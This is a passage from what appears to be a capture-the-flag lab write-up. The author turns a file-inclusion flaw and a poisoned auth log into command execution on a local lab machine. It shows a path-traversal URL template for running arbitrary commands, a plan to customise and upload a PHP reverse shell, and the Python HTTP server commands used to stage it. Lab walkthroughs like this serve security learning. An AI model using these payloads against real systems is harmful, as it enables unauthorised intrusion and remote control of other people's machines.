 > ![Because normal people have usernames like this.](.images/ace.png)

She lives! We have a way of running commands on the target system now, and we can proceed to a full shell. Any command can be run off of a template now:

    http://192.168.56.108/sea.php?file=../../../../../../var/log/auth&c=mycommand

Let's grab [a simple reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) and customize it a bit. In my case, I'm going to want to at least change my IP address. I'll save this to `/tmp/sym4/rsh.php`.

Next, we need to get this file on to the target machine. In order to do this, we'll need to leverage one of my favorite tools: Python's Simple HTTP Server. 

> **The Simple HTTP Server**
> 
> For those not in the know, you can spawn a tiny webserver on any system with Python 3 installed by running `python3 -m http.server`. Your current directory will be served to the world at port 8000, and you can freely grab files by making a request.
> 
> Insanely handy, and readily available! What's better than that?

I'm going to host out my `/tmp/sym4` workdir. I background the task just so I can keep my shell free and save some time.

    root@kali ~ # cd /tmp/sym4                                                                                              
    root@kali /tmp/sym4 # python3 -m http.server & 
    